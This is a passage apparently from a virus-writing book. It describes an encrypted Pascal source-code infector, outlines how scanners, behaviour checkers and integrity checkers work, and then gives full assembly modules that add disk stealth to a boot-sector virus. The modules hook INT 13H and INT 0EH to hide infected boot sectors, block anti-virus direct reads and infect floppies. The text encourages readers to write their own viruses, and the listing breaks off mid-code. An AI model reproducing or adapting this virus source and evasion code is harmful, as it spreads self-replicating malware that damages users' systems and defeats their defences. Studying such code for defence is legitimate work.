SCVIRUS implements a simple encryption scheme to make sure that someone snooping through the executable code will not see the source code stuffed in TCONST. Rather than making TCONST a straight ASCII constant, each byte in the source is multiplied by two and XORed with 0AAH. To create the constant, one must take the virus procedure (along with the IFNDEF, etc.) and put it in a separate file. Then run the ENCODE program on it. ENCODE will create a new file with a proper TCONST definition, complete with encryption. Then, with an editor, one may put the proper constant back into SCVIRUS.PAS.
Clearly the virus could be rewritten to hide the body of the code in an include file, VIRUS.INC, so that the only thing which would have to be added to infect a file would be the call to VIRUS and a statement
{$I VIRUS.INC}
Since Turbo Pascal doesn't make use of an INCLUDE environment variable, the virus would have to put VIRUS.INC in the current directory, or specify the exact path where it did put it (\TP\BIN, the default Turbo install directory might be a good choice). In any event, it would probably only want to create that file when it had successfully found a PAS file to infect, so it did not put new files on systems which had no Pascal files on them to start with.
The following code is a demonstration model. It compiles up to a whopping 47K. Getting rid of all the comments and white space, as well as using short, cryptic variable names, etc., compresses it down to 16K, which is somewhat more acceptable.
The following program takes two command-line parameters. The first is the input file name, and the second is the output file name. The input can be any text file, and the output is an encrypted Pascal constant declaration.
By now I hope you are beginning to see the almost endless possibilities which are available to computer viruses to reproduce and travel about in computer systems. They are limited only by the imaginations of those more daring programmers who don't have to be fed everything on a silver platter - they'll figure out the techniques and tricks needed to write a virus for themselves, whether they're documented or not.
If you can imagine a possibility - a place to hide and a means to execute code - then chances are a competent programmer can fit a virus into those parameters. The rule is simple: just be creative and don't give up until you get it right.
The possibilities are mind-boggling, and the more complex the operating system gets, the more possibilities there are. In short, though we've covered a lot of ground so far in this book, we've only scratched the surface of the possibilities. Rather than continuing ad infinitum with our discussion of reproduction techniques, I'd like to switch gears and discuss what happens when we throw anti-virus programs into the equation. Before we do that, though, I'd like to suggest some extended exercises for the enterprising reader. Each one of the exercises in this chapter could really be expanded into a whole chapter of its own, discussing the techniques involved and how to employ them.
My goal in writing this book has never been to make you dependent on me to understand viruses, though. That's what most of the anti-virus people want to do. If you bought this book and read this far, it's because you want to and intend to understand viruses for yourself, be it to better defend yourself or your company, or just for curiosity's sake. The final step in making your knowledge and ability complete - or as complete as it can be - is to take on a research and development project with a little more depth, kind of like writing your Master's thesis.
In any event, here are some exercises which you might find interesting. Pick one and try your hand at it.
Up to this point, we've only discussed mechanisms which computer viruses use for self-reproduction. The viruses we've discussed do little to avoid programs that detect them. As such, they're all real easy to detect and eliminate. That doesn't mean they're somehow defective. Remember that the world's most successful virus is numbered among them. None the less, many modern viruses take into account the fact that there are programs out there trying to catch and destroy them and take steps to avoid these enemies.
In order to better understand the anti-anti-virus techniques which modern viruses use, we should first examine how an anti-virus program works. We'll start out with some simple anti-virus techniques, and then study how viruses defeat them. Then, we'll look at more sophisticated techniques and discuss how they can be defeated. This will provide some historical perspective on the subject, and shed some light on a fascinating cat-and-mouse game that is going on around the world.
In this chapter we will discuss three different anti-virus techniques that are used to locate and eliminate viruses. These include scanning, behavior checking, and integrity checking. Briefly, scanners search for specific code which is believed to indicate the presence of a virus. Behavior checkers look for programs which do things that viruses normally do. Integrity checkers simply monitor for changes in files.
Scanning for viruses is the oldest and most popular method for locating viruses. Back in the late 80's, when there were only a few viruses floating around, writing a scanner was fairly easy. Today, with thousands of viruses, and many new ones being written every year, keeping a scanner up to date is a major task. For this reason, many professional computer security types pooh-pooh scanners as obsolete and useless technology, and they mock "amateurs" who still use them. This attitude is misguided, however. Scanners have an important advantage over other types of virus protection in that they allow one to catch a virus before it ever executes in your computer.
The basic idea behind scanning is to look for a string of bytes that are known to be part of a virus. For example, let's take the MINI-44 virus we discussed at the beginning of the last section. When assembled, its binary code looks like this:
0100: B4 4E BA 26 01 CD 21 72 1C B8 01 3D BA 9E 00 CD 0110: 21 93 B4 40 B1 2A BA 00 01 CD 21 B4 3E CD 21 B4 0120: 4F CD 21 EB E2 C3 2A 2E 43 4F 4D
A scanner that uses 16-byte strings might just take the first 16 bytes of code in this virus and use it to look for the virus in other files.
But what other files? MINI-44 is a COM infector, so it should only logically be found in COM files. However, it is a poor scanner that only looks for this virus in file that have a file name ending with COM. Since a scanner's strength is that it can find viruses before they execute, it should search EXE files too. Any COM file - including one with the MINI-44 in it - can be renamed to EXE and planted on a disk. When it executes, it will only infect COM files, but the original is an EXE.
Typically, a scanner will contain fields associated to each scan string that tell it where to search for a particular string. This selectivity cuts down on overhead and makes the scanner run faster. Some scanners even have different modes that will search different sets of files, depending on what you want. They might search executables only, or all files, for example.
Let's design a simple scanner to see how it works. The data structure we'll use will take the form
FLAGS DB ?
STRING DB 16 dup (?)
where the flags determine where to search:
Bit 0 - Search Boot Sector
Bit 1 - Search Master Boot Sector
Bit 2 - Search EXE
Bit 3 - Search COM
Bit 4 - Search RAM
Bit 5 - End of List
This allows the scanner to search for boot sector and file infectors, as well as resident viruses. Bit 4 of the flags indicates that you're at the end of the data structures which contain strings.
Our scanner, which we'll call GBSCAN, must first scan memory for resident viruses (SCAN_RAM). Next, it will scan the master boot (SCAN_MASTER_BOOT) and operating system boot (SCAN_BOOT) sectors, and finally it will scan all executable files (SCAN_EXE and SCAN_COM).
Each routine simply loads whatever sector or file is to be scanned into memory and calls SCAN_DATA with an address to start the scan in es:bx and a data size to scan in cx, with the active flags in al.
That's all that's needed to build a simple scanner. The professional anti-virus developer will notice that this scanner has a number of shortcomings, most notably that it lacks a useful database of scan strings. Building such a database is probably the biggest job in maintaining a scanner. Of course, our purpose is not to develop a commercial product, so we don't need a big database or a fast search engine. We just need the basic idea behind the commercial product.
The next major type of anti-virus product available today is what I call a behavior checker. Behavior checkers watch your computer for virus-like activity, and alert you when it takes place. Typically, a behavior checker is a memory resident program that a user loads in the AUTOEXEC.BAT file and then it just sits there in the background looking for unusual behavior.
Examples of "unusual behavior" that might be flagged include: attempts to open COM or EXE files in read/write mode, attempts to write to boot or master boot sectors, and attempts to go memory resident.
Typically, programs that look for this kind of behavior do it by hooking interrupts. For example, to monitor for attempts to write to the master boot sector, or operating systemboot sector, one could hook Interrupt 13H, Function 3, like this:
INT_13H:
cmp cx,1 ;cyl 0, sector 1?
jnz DO_OLD ;nope, don't worry about it
cmp dh,0 ;head 0?
jnz DO_OLD ;nope, go do it
cmp ah,3 ;write?
jnz DO_OLD ;nope
call IS_SURE ;sure you want to write bs?
jz DO_OLD ;yes, go ahead and do it
stc ;else abort write, set carry
retf 2 ;and return to caller
DO_OLD: ;execute original INT 13H
jmp DWORD PTR cs:[OLD_13H]
To look for attempts to open program files in read/write mode, one might hook Interrupt 21H, Function 3DH,
INT_21H:
push ax ;save ax
and ax,0FF02H ;mask read/write bit
cmp ax,3D02H ;is it open read/write?
pop ax
jne DO_OLD ;no, go to original handler
call IS_EXE ;yes, is it an EXE file?
jz FLAG_CALL ;yes, better ask first
call IS_COM ;no, is it a COM file?
jnz DO_OLD ;no, just go do call
FLAG_CALL:
call IS_SURE ;sure you want to open?
jz DO_OLD ;yes, go do it
stc ;else set carry flag
retf 2 ;and return to caller
DO_OLD:
jmp DWORD PTR cs:[OLD_21H]
In this way, one can put together a program which will at least slow downmanycommonviruses.Suchaprogram,GBCHECK, islisted at the end of this chapter.
Typically, an integrity checker will build a log that contains the names of all the files on a computer and some type of characterization of those files. That characterization may consist of basic data like the file size and date/time stamp, as well as a checksum, CRC, or cryptographic checksum of some type. Each time the user runs the integrity checker, it examines each file on the system and compares it with the characterization it made earlier.
An integrity checker will catch most changes to files made on your computer, including changes made by computer viruses. This works because, if a virus adds itself to a program file, it will probably make it bigger and change its checksum. Then, presumably, the integrity checker will notice that something has changed, and alert the user to this fact so he can take preventive action. Of course, there could be thousands of viruses in your computer and the integrity checker would never tell you as long as those viruses didn't execute and change some other file.
The integrity checker GBINTEG listed at the end of this chapter will log the file size, date and checksum, and notify the user of any changes.
Over the years, scanners have remained the most popular way to detect viruses. I believe this is because they require no special knowledge of the computer and they can usually tell the user exactly what is going on. Getting a message like "The XYZ virus has been found in COMMAND.COM" conveys exact information to the user. He knows where he stands. On the other hand, what should he do when he gets the message "Something is attempting to open HAMMER.EXE in read/write mode. (A)bort or (P)roceed?" Or what should he do with "The SNARF.COM file has been modified!"? Integrity and behavior checkers oftengiveinformation about what's going on which the non-technical user will consider to be highly ambiguous. The average user may not know what to do when the XYZ virus shows up, but he at least knows he ought to get anti-virus help. And usually he can, over the phone, or on one of the virus news groups like comp.virus. On the other hand, with an ambiguous message from an integrity or behavior checker, the user may not even be sure if he needs help.
Ah well, for that reason, scanning is the number one choice for catching viruses. Even so, some scanner developers have gone over to reporting so-called "generic viruses". For example, there seems to be a never ending stream of inquiries on news groups like comp.virus about the infamous "GenB" boot sector virus, which is reported by McAfee's SCAN program. People write in asking what GenB does and how to get rid of it. Unfortunately, GenB isn't really a virus at all. It's just a string of code that's been found in a number of viruses, and if you get that message, you may have any one of a number of viruses, or just an unusual boot sector. Perhaps the developers are just too lazy to make a positive identification, and they are happy to just leave you without the precise information you picked a scanner for anyway.
GBSCAN should be assembled to a COM file. It may be executed without a command line, in which case it will scan the current disk. Alternatively, one can specify a drive letter on the command line and GBSCAN will scan that drive instead.
GBSCAN can be assembled with MASM, TASM or A86.
The GBCHECK.ASM program is a simple behavior checker that flags: A) attempts to write to Cylinder 0, Head 0, Sector 1 on any disk, B) any attempt by any program to go memory resident using DOS Interrupt 21H, Function 31H, and C) attempts by any program to open a COM or EXE file in read/write mode using DOS Interrupt 21H, Function 3DH. This is simply accomplished by installing hooks for Interrupts 21H and 13H.
GBCHECK is itself a memory resident program. Since it must display information and questions while nasty things are happening, it has to access video memory directly. Since it's more of a demo than anything else, it only works properly in text modes, not graphics modes for Hercules or CGA/EGA/VGA cards. It works by grabbing the first 4 lines on the screen and using them temporarily. When it's done, it restores that video memory and disappears.
Since GBCHECK is memory resident, it must also be careful when going resident. If it installs its interrupt hook and goes resident it will flag itself. Thus, an internal flag called FIRST is used to stop GBCHECK from flagging the first attempt to go resident it sees.
GBCHECK can be assembled with TASM, MASM or A86 to a COM file.
The GBINTEG program is written in Turbo Pascal (Version 4 and up). When run, it creates two files in the root directory. GBINTEG.DAT is the binary data file which contains the integrity information on all of the executable files in your computer. GBINTEG.LST is the output file listing all changed, added or deleted executable files in the system. To run it, just type GBINTEG, and the current disk will be tested. To run it on a different disk or just a subdirectory, specify the drive and path on the command line.
One of the main techniques used by viruses to hide from anti-virus programs is called stealth. Stealth is simply the art of convincing an anti-virus program that the virus simply isn't there.
We'll break our discussion of stealth up into boot sector viruses and file infectors, since the techniques are very different in these two cases. Let's consider the case of the boot sector virus now.
Imagine you're writing an anti-virus program. Of course you want to read the boot sector and master boot sector and scan them, or check their integrity. So you do an Interrupt 13H, Function 2, and then look at the data you read? Right? And if you got an exact copy of the original sector back on the read, you'd know there was no infection here. Everything's ok.
Or is it?
Maybe not. Look at the following code, which might be implemented as an Interrupt 13H hook:
INT_13H:
cmp cx,1
jnz OLD13
cmp dx,80H
jnz OLD13
mov cx,7
pushf
call DWORD PTR cs:[OLD_13H]
mov cx,1
retf 2
OLD13: jmp DWORD PTR cs:[OLD_13H]
This hook redirects any attempt to read or write to Cylinder 0, Head 0, Sector 1 on the C: drive to Cylinder 0, Head 0, Sector 7! So if your anti-virus program tries to read the Master Boot Sector, it will instead get Sector 7, but it will think it got Sector 1. A virus implementing this code can therefore put the original Master Boot Sector in Sector 7 and then anything that tries to get the real Master Boot Sector will in fact get the old one... and they will be decieved into believing all is well.
This is the essence of stealth.
Of course, to implement stealth like this in a real virus, there are a few more details to be added. For example, a virus presumably spreads from hard disk to floppy disks, and vice versa. As such, the virus must stealth both hard disk and floppy. Since floppies are changed frequently and infected frequently, the virus must coordinate the infection process with stealthing. The stealth routine must be able to tell whether a disk is infected or not before attempting to stealth the virus, or it will return garbage instead of the original boot sector (e.g. on a write-protected and uninfected diskette).
Secondly, the virus must properly handle attempts to read more than one sector. If it reads two sectors from a floppy where the first one is the boot sector, the second one had better be the first FAT sector. This is normally accomplished by breaking the read up into two reads if it involves more than one sector. One read retrieves the original boot sector, and the second read retrieves the rest of the requested sectors (or vice versa).
To implement such a stealthing interrupt hook for a virus like the BBS is not difficult at all. The logic for this hook is explained in Figure 21.1, and the hook itself is listed at the end of this chapter. I call this Level One stealth.
Figure 21.1: Logic of Level One stealth.
Although this kind of a stealth procedure is a pretty cute trick, it's also an old trick. It's been around since the late 80's, and any anti-virus program worth its salt will take steps to deal with it. If your anti-virus program can't deal with this kind of plain-vanilla stealth, you should throw it away.
How would an anti-virus program bypass this stealthing and get at the real boot sector to test it, though?
Perhaps the best way is to attempt to read by directly manipulating the i/o ports for the hard disk. This approach goes past all of the software in the computer (with an important exception we'll discuss in a moment) and gets the data directly from the hard disk itself. The problem with this approach is that it's hardware dependent. The whole purpose of the BIOS Interrupt 13H handler is to shield the programmer from having to deal with esoteric hardware-related issues while programming. For example, the way you interface to an IDE disk drive is dramatically different than how you interface to a SCSI drive, and even different SCSI controllers work somewhat differently. To write a program that will successfully access a disk drive directly through the hardware, and work 99.9% of the time, is not so easy.
Despite this difficulty, let's look at the example of a standard old IDE drive. The drive occupies i/o ports 1F0H through 1F7H, the function of which are explained in Figure 21.2. To send a command to the disk to read Cylinder 0, Head 0, Sector 1, the code looks something like this:
READ_IDE_DISK:
mov si,OFFSET CMD ;point to disk cmd block
mov dx,1F1H ;dx=1st disk drive port
mov cx,7 ;prepare to out 7 bytes
RIDL1: lodsb ;get a byte
out [dx],al ;and send it
inc dx
loop RIDL1 ;until 7 are done
mov ax,40H
mov ds,ax ;set ds=40H
mov dx,5
RIDL2: mov cx,0FFFH
loop $ ;short delay
cmp [HD_INT],1 ;see if ready to send
jz RID3 ;yes, go do it
dec dx ;else try again
jnz RIDL2 ;unless timed out
stc ;time out, set carry
ret ;and exit
RID3: mov [HD_INT],0 ;reset this flag
mov dx,1F0H ;data input port
mov cx,100H ;words to move
push cs
pop es ;put data at es:di
mov di,OFFSET DISK_BUF
rep insw ;get the data now
clc ;done, clear carry
ret ;and exit
DISK_BUF DB 512 dup (?)
CMD DB 00,00,01,01,00,00,00,20H
(Note that I've left out some details so as not to obscure the basic idea. If you want all the gory details, please refer to the IBM PC AT Technical Reference.) All it does is check to make sure the drive is ready for a command, then sends it a command to read the desired sector, and proceeds to get the data from the drive when the drive has it and is ready to send it to the CPU.
Similar direct-read routines could be written to access the floppy disk, though the code looks completely different. Again, this code is listed in the IBM PC AT Technical Reference.
| Port | Function |
|---|---|
| 1F0 | Input/Output port for data on read/write |
| 1F1 | For writes this is the precomp cylinder, for reads, it's error flags |
| 1F2 | Sector count to read/write (from al on INT 13H) |
| 1F3 | Sector number (from cl on INT 13H) |
| 1F4 | Low byte of cylinder number (from ch on INT 13H) |
| 1F5 | High byte of cylinder number (from cl high bits on INT 13H) |
| 1F6 | Sector Size/Drive/Head (from dh, dl on INT 13H). The head is the low 4 bits, the drive is bit 5, and the sector size is bits 6 to 8 (0A0H is 512 byte sectors with ECC, standard for PCs). |
| 1F7 | Written to, it's the command to execute (20H=read, 40H=write), read from, it's the status. |
Figure 21.2: IDE hard drive i/o ports.
This will slide you right past Interrupt 13H and any interrupt 13H-based stealthing mechanisms a virus might have installed. However, this is a potentially dangerous approach for a commercial anti-virus product because of its hardware dependence. Any anti-virus developer who implements something like this is setting himself up to get flooded with tech support calls if there is any incompatibility in the read routine.
A better approach is to tunnel Interrupt 13H. Interrupt tunneling is a technique used both by virus writers and anti-virus developers to get at the original BIOS ROM interrupt vectors. If you get the original ROM vector, you can call it directly with a pushf/call far, rather than doing an interrupt, and you can bypass a virus that way, without having to worry about hardware dependence.
Fortunately most BIOS ROM Interrupt 13Hs provide a relatively easy way to find where they begin. Since Interrupt 13H is used for both floppy and hard disk access, though the hardware is different, the first thing that usually happens in an Interrupt 13H controller is to find out whether the desired disk access is for floppy disks or hard disks, and branch accordingly. This branch usually takes the form of calling Interrupt 40H in the event a floppy access is required. Interrupt 40H is just the floppy disk only version of Interrupt 13H, and it's normally used only at the ROM BIOS level. Thus, the typical BIOS Interrupt 13H handler looks something like
INT_13H:
cmp dl,80H ;which drive?
jae HARD_DISK ;80H or greater, hard disk
int 40H ;else call floppy disk
retf 2 ;and return to caller
HARD_DISK: ;process hd request
The int 40H instruction is simply 0CDH 40H, so all you have to do to find the beginning of the interrupt 13H handler is to look for CD 40 in the ROM BIOS segment 0F000H. Find it, go back a few bytes, and you're there. Call that and you get the original boot sector or master boot sector, even if it is stealthed by an Interrupt 13H hook.
Maybe.
Perhaps you noticed the mysterious HD_INT flag which the direct hardware read above checked to see if the disk drive was ready to transfer data. This flag is the Hard Disk Interrupt flag. It resides at offset 84H in the BIOS data area at segment 40H. The floppy disk uses the SEEK_STATUS flag at offset 3EH in the BIOS data area. How is it that these flags get set and reset though?
When a hard or floppy disk finishes the work it has been instructed to do by the BIOS or another program, it generates a hardware interrupt. The routine which handles this hardware interrupt sets the appropriate flag to notify the software which initiated the read that the disk drive is now ready to send data. Simple enough. The hard disk uses Interrupt 76H to perform this task, and the floppy disk uses Interrupt 0EH. The software which initiated the read will reset the flag after it has seen it.
But if you think about it, there's no reason something couldn't intercept Interrupt 76H or 0EH as well and do something funny with it, to fool anybody who was trying to work their way around Interrupt 13H! Indeed, some viruses do exactly this.
One strategy might be to re-direct the read through the Interrupt hook, so the anti-virus still gets the original boot sector. Another strategy might simply betofrustrate thereadifitdoesn't go through the virus' Interrupt 13H hook. That's a lot easier, and fairly hardware independent. Let's explore this strategy a bit more...
To hook the floppy hardware interrupt one writes an Interrupt 0EH hook which will check to see if the viral Interrupt 13H has been called or not. If it's been called, there is no problem, and the Interrupt 0EH hook should simply pass control to the original handler. If the viral Interrupt 13H hasn't been called, though, then something is trying to bypass it. In this case, the interrupt hook should just reset the hardware and return to the caller without setting the SEEK_STATUS flag. Doing that will cause the read attempt to time out, because it appears the drive never came back and said it was ready. This will generally cause whatever tried to read the disk to fail - the equivalent of an int 13H which returned with c set. The data will never get read in from the disk controller. An interrupt hook of this form is very simple. It looks like this:
INT_0EH:
cmp BYTE PTR cs:[INSIDE],1 ;is INSIDE = 1 ?
jne INTERET ;no, ret to caller
jmp DWORD PTR cs:[OLD_0EH] ;go to old handler
INTERET:push ax
mov al,20H ;release intr ctrlr
out 20H,al
pop ax
iret ;and ret to caller
In addition to the int 0EH hook, the Interrupt 13H hook must be modified to set the INSIDE flag when it is in operation. Typically, the code to do that looks like this:
INT_13H:
mov BYTE PTR cs:[INSIDE],1 ;set the flag on entry
.
. ;do whatever
.
pushf ;call ROM BIOS
call DWORD PTR cs:[OLD_13H]
.
.
.
mov BYTE PTR cs:[INSIDE],0 ;reset flag on exit
retf 2 ;return to caller
The actual implementation of this code with the BBS virus is what I'll call Level Two stealth, and it is presented at the end of this chapter.
If you want to test this level two stealth out, just write a little program that reads the boot sector from the A: drive through Interrupt 40H,
mov ax,201H
mov bx,200H
mov cx,1
mov dx,0
int 40H
You can run this under DEBUG both with the virus present and without it, and you'll see how the virus frustrates the read.
Thus, anti-viruses which really want to bypass the BIOS must replace not only the software interrupts with a direct read routine, but also the hardware interrupts associated to the disk drive. It would appear that if an anti-virus went this far, it would succeed at really getting at the true boot sector. Most anti-virus software isn't that smart, though.
If you're thinking of buying an anti-virus site license for a large number of computers, you should really investigate what it does to circumvent boot-sectorstealth likethis.Ifit doesn't dodirect access to the hardware, it is possible to use stealth against it. If it does do direct hardware access, you have to test it very carefully for compatibility with all your machines.
Even direct hardware access can present some serious flaws as soon as one moves to protected modeprogramming.That's because you can hook the i/o ports themselves in protected mode. Thus, a direct hardware access can even be redirected! The SS-386 virus does exactly this.1 We'll discuss this technique more in two chapters.
We've briefly covered a lot of ground for stealthing boot sector viruses. There's a lot more ground that could be covered, though. There are all kinds of combinations of the techniques we've discussed that could be used. For example, one could hook Interrupt 40H, and redirect attempted reads through that interrupt. One could also hook some of the more esoteric read functions provided by Interrupt 13H. For example, Interrupt 13H, Function 0AH is a "Read Long" which is normally only used by diagnostic software to get the CRC information stored after the sector for low-level integrity checking purposes. An anti-virus program might try to use that to circumvent a Function 2 hook, and a virus writer might just as well hook it too. Also possible are direct interfacing with SCSI drives through the SCSI interface or through ASPI, the Advanced SCSI Programming Interface which is normally provided as a device driver. The more variations in hardware there are, the more the possibilities.
If you want to explore some of these options, the best place to start is with the IBM PC AT Technical Reference. It contains a complete listing of BIOS code for an AT, and it's an invaluable reference. If you're really serious, you can also buy a developers license for a BIOS and get the full source for it from some manufacturers. See the Resources for one source.
So far we've only discussed how a virus might hide itself on disk: that is normally what is meant by "stealth". A boot sector virus may also hide itself in memory, though. So far, the resident boot sector viruses we've discussed all go resident by changing the size of system memory available to DOS which is stored in the BIOS data area. While this technique is certainly a good way to do things, it is also a dead give-away that there is a boot sector virus in memory. To see it, all one has to do is run the CHKDSK program. CHKDSK always reports the memory available to DOS, and you can easily compare it with how much should be there. On a standard 640K system, you'll get a display something like:
655,360 total bytes memory
485,648 bytes free
If the "total bytes memory" is anything other than 655,360 (= 640 x 1024) then something's taken part of your 640K memory. That's a dead give-away.
So how does a boot sector virus avoid sending up this red flag?
One thing it could do is to wait until DOS (or perhaps another operating system) has loaded and then move itself and go to somewhere else in memory where it's less likely to be noticed. Some operating systems, like Windows, send out a flag via an interrupt to let you know they're loading. That's real convenient. With others, like DOS, you just have to guess when they've had time to load, and then go attempt to do what you're trying. Since we've already discussed the basics of these techniques when dealing with Military Police virus, and our resident EXE viruses, we'll leave the details of how to go about doing them for the exercises.
The following file is designed to directly replace the INT13H.ASM module in the BBS virus. Simply replace it and you'll have a BBS virus with Level One Stealth.
;*******************************************************************************
;* INTERRUPT 13H HANDLER *
;*******************************************************************************
OLD_13H DD ? ;Old interrupt 13H vector goes here
INT_13H:
sti
cmp ah,2 ;we want to intercept reads
jz READ_FUNCTION
I13R: jmp DWORD PTR cs:[OLD_13H]
;*******************************************************************************
;This section of code handles all attempts to access the Disk BIOS Function 2.
;It stealths the boot sector on both hard disks and floppy disks, by
;re-directing the read to the original boot sector. It handles multi-sector
;reads properly, by dividing the read into two parts. If an attempt is
;made to read the boot sector on the floppy, and the motor is off, this
;routine will check to see if the floppy has been infected, and if not, it
;will infect it.
READ_FUNCTION: ;Disk Read Function Handler
cmp dh,0 ;is it a read on head 0?
jnz ROM_BIOS ;nope, we're not interested
cmp dl,80H ;is this a hard disk read?
jc READ_FLOPPY ;no, go handle floppy
;This routine stealths the hard disk. It's really pretty simple, since all it
;has to do is add VIR_SIZE+1 to the sector number being read, provided the
;sector being read is somewhere in the virus. That moves a read of the
;master boot sector out to the original master boot record, and it moves
;all other sector reads out past where the virus is, presumably returning
;blank data.
READ_HARD: ;else handle hard disk
cmp cx,VIR_SIZE+3 ;is cyl 0, sec < VIR_SIZE + 3?
jnc ROM_BIOS ;no, let BIOS handle it
push cx
add cx,VIR_SIZE+1 ;adjust sec no (stealth)
pushf ;and read from here instead
call DWORD PTR cs:[OLD_13H] ;call ROM BIOS
pop cx ;restore original sec no
retf 2 ;and return to caller
ROM_BIOS: ;jump to ROM BIOS disk handler
jmp DWORD PTR cs:[OLD_13H]
;This handles reading from the floppy, which is a bit more complex. For one,
;we can't know where the original boot sector is, unless we first read the
;viral one and get that information out of it. Secondly, a multi-sector
;read must return with the FAT in the second sector, etc.
READ_FLOPPY:
cmp cx,1 ;is it cylinder 0, sector 1?
jnz ROM_BIOS ;no, let BIOS handle it
mov cs:[CURR_DISK],dl ;save currently accessed drive #
call CHECK_DISK ;is floppy already infected?
jz FLOPPY_STEALTH ;yes, stealth the read
call INIT_FAT_MANAGER ;init FAT management routines
call INFECT_FLOPPY ;no, go infect the diskette
RF2: call CHECK_DISK ;see if infection took
jnz ROM_BIOS ;no stealth needed, go to BIOS
;If we get here, we need stealth.
FLOPPY_STEALTH:
int 40H ;read requested sectors
mov cs:[REPORT],ax ;save returned ax value here
jnc BOOT_SECTOR ;and read boot sec if no error
mov al,0 ;error, return with al=0
retf 2 ;and carry set
;This routine reads the original boot sector.
BOOT_SECTOR:
mov cx,WORD PTR es:[bx + 3EH] ;cx, dh locate start of
mov dh,BYTE PTR es:[bx + 41H] ;main body of virus
add cl,VIR_SIZE ;update to find orig boot sec
cmp cl,BYTE PTR cs:[BS_SECS_PER_TRACK] ;this procedure works
jbe BS1 ;as long as VIR_SIZE
sub cl,BYTE PTR cs:[BS_SECS_PER_TRACK] ; <=BS_SECS_PER_TRACK
xor dh,1
jnz BS1
inc ch
BS1: mov ax,201H ;read original boot sector
int 40H ;using BIOS floppy disk
mov cx,1 ;restore cx and dh
mov dh,0
jc EXNOW ;error, exit now
mov ax,cs:[REPORT]
EXNOW: retf 2 ;and exit to caller
REPORT DW ? ;value reported to caller in ax
To implement Level Two stealth, you must replace the INT13H.ASM module in the BBS virus with the code listed below. Also, you'll have to modify the BOOT.ASM module for BBS by adding code to hook Interrupt 0EH. In essence, you should replace
INSTALL_INT13H:
xor ax,ax
mov ds,ax
mov si,13H*4 ;save the old int 13H vector
mov di,OFFSET OLD_13H
movsw
movsw
mov ax,OFFSET INT_13H ;and set up new interrupt 13H
mov bx,13H*4 ;which everybody will have to
mov ds:[bx],ax ;use from now on
mov ax,es
mov ds:[bx+2],ax
with something like
INSTALL_INT13H:
xor ax,ax
mov ds,ax
mov si,13H*4 ;save the old int 13H vector
mov di,OFFSET OLD_13H
movsw
movsw
mov si,0EH*4 ;save the old int 0EH vector
mov di,OFFSET OLD_0EH
movsw
movsw
mov bx,13H*4 ;set up new INT 13H vector
mov [bx],OFFSET INT_13H
mov [bx+2],es
mov bx,0EH*4 ;set up new INT 0EH vector
mov [bx],OFFSET INT_0EH
mov [bx+2],es
in BOOT.ASM. The INT13H.ASM module for Level Two is as follows:
;*******************************************************************************
;* INTERRUPT 13H HANDLER *
;*******************************************************************************
OLD_13H DD ? ;Old interrupt 13H vector goes here
INT_13H:
sti
cmp ah,2 ;we want to intercept reads
jz READ_FUNCTION
mov BYTE PTR cs:[INSIDE],1
pushf
call DWORD PTR cs:[OLD_13H]
mov BYTE PTR cs:[INSIDE],0
retf 2
;*******************************************************************************
;This section of code handles all attempts to access the Disk BIOS Function 2.
;It stealths the boot sector on both hard disks and floppy disks, by
;re-directing the read to the original boot sector. It handles multi-sector
;reads properly, by dividing the read into two parts. If an attempt is
;made to read the boot sector on the floppy, and the motor is off, this
;routine will check to see if the floppy has been infected, and if not, it
;will infect it.
READ_FUNCTION: ;Disk Read Function Handler
mov BYTE PTR cs:[INSIDE],1 ;set INSIDE flag
cmp dh,0 ;is it a read on head 0?
jnz ROM_BIOS ;nope, we're not interested
cmp dl,80H ;is this a hard disk read?
jc READ_FLOPPY ;no, go handle floppy
;This routine stealths the hard disk. It's really pretty simple, since all it
;has to do is add VIR_SIZE+1 to the sector number being read, provided the
;sector being read is somewhere in the virus. That moves a read of the
;master boot sector out to the original master boot record, and it moves
;all other sector reads out past where the virus is, presumably returning
;blank data.
READ_HARD: ;else handle hard disk
cmp cx,VIR_SIZE+3 ;is cyl 0, sec < VIR_SIZE + 3?
jnc ROM_BIOS ;no, let BIOS handle it
push cx
add cx,VIR_SIZE+1 ;adjust sec no (stealth)
pushf ;and read from here instead
call DWORD PTR cs:[OLD_13H] ;call ROM BIOS
pop cx ;restore original sec no
mov BYTE PTR cs:[INSIDE],0 ;reset INSIDE flag
retf 2 ;and return to caller
ROM_BIOS: ;call ROM BIOS disk handler
pushf
call DWORD PTR cs:[OLD_13H]
mov BYTE PTR cs:[INSIDE],0 ;reset this flag
retf 2 ;and return to caller
;This handles reading from the floppy, which is a bit more complex. For one,
;we can't know where the original boot sector is, unless we first read the
;viral one and get that information out of it. Secondly, a multi-sector
;read must return with the FAT in the second sector, etc.
READ_FLOPPY:
cmp cx,1 ;is it cylinder 0, sector 1?
jnz ROM_BIOS ;no, let BIOS handle it
mov cs:[CURR_DISK],dl ;save currently accessed drive #
call CHECK_DISK ;is floppy already infected?
jz FLOPPY_STEALTH ;yes, stealth the read
call INIT_FAT_MANAGER ;initialize FAT mgmt routines
call INFECT_FLOPPY ;no, go infect the diskette
RF2: call CHECK_DISK ;see if infection took
jnz ROM_BIOS ;no stealth required, go to BIOS
;If we get here, we need stealth.
FLOPPY_STEALTH:
int 40H ;read requested sectors
mov cs:[REPORT],ax ;save returned ax value here
jnc BOOT_SECTOR ;and read boot sec if no error
mov al,0 ;error, return with al=0
mov BYTE PTR cs:[INSIDE],0 ;reset INSIDE flag
retf 2 ;and carry set
;This routine reads the original boot sector.
BOOT_SECTOR:
mov cx,WORD PTR es:[bx + 3EH] ;cx, dh locate start of
mov dh,BYTE PTR es:[bx + 41H] ;main body of virus
add cl,VIR_SIZE ;update to find orig;and carr
cmp cl,BYTE PTR cs:[BS_SECS_PER_TRACK] ;this procedure works
jbe BS1 ;as long as VIR_SIZE
sub cl,BYTE PTR cs:[BS_SECS_PER_TRACK] ; <=BS_SECS_PER_TRACK
xor dh,1
jnz BS1
inc ch
BS1: mov ax,201H ;read original boot sector
int 40H ;using BIOS floppy disk
mov cx,1 ;restore cx and dh
mov dh,0
jc EXNOW ;error, exit now
mov ax,cs:[REPORT]
EXNOW: mov BYTE PTR cs:[INSIDE],0 ;reset INSIDE flag
retf 2 ;and exit to caller
REPORT DW ? ;value reported to caller in ax
INSIDE DB 0 ;flag indicates we're inside int 13 hook
;*******************************************************************************
;This routine handles the floppy disk hardware Interrupt 0EH. Basically, it
;just passes control to the old handler as long as the INSIDE flag is one. If
;the INSIDE flag is zero, though, it returns to the caller without doing
;anything. This frustrates attempts to go around INT 13H by anti-virus software.
OLD_0EH DD ? ;old INT 0EH handler vector
INT_0EH:
cmp BYTE PTR cs:[INSIDE],1 ;is INSIDE = 1 ?
jne INTERET ;nope, just return to caller
